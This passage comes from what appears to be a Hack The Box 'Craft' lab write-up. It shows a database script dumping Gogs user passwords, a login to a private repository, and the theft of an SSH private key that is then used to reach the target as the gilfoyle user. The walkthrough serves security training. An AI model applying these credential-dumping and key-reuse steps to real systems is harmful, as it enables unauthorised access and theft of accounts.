 Running the new `dbtest.py` on the remote system provides the username and password combinations for the other Gogs users.

```
/opt/app # python dbtest.py
[{'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'}, {'id': 4, 'username': 'ebachman', 'password': 'llJ77D8QFkLPQB'}, {'id': 5, 'username': 'gilfoyle', 'password': 'ZEU3N8WNM2rh4T'}]
```

Signing into Gogs as the `gilfoyle` user grants access to the user's private `craft-infra` repository that is not available to any other user. 

![gilfoyle_infra.png](/assets/images/htb/craft/gilfoyle_infra.png)

Within this repository there resides a `craft-infra/.ssh/id_rsa` private OpenSSH key. The `id_rsa` private key contents were copied to the local system. Then, the SSH service running on port 22 of the remote system was accessed as the `gilfoyle` user while specifying the path to the user's private OpenSSH key on the local system using the `-i` flag.

```
root@kali:~/workspace/hackthebox/Craft# ssh gilfoyle@craft.htb -i ./id_rsa


  .   *   ..  . *  *
*  * @()Ooc()*   o  .
    (Q@*0CG*O()  ___
   |\_________/|/ _ \
   |  |  |  |  | / | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | \_| |
   |  |  |  |  |\___/
   |\_|__|__|_/|
    \_________/



Enter passphrase for key './id_rsa': 
```
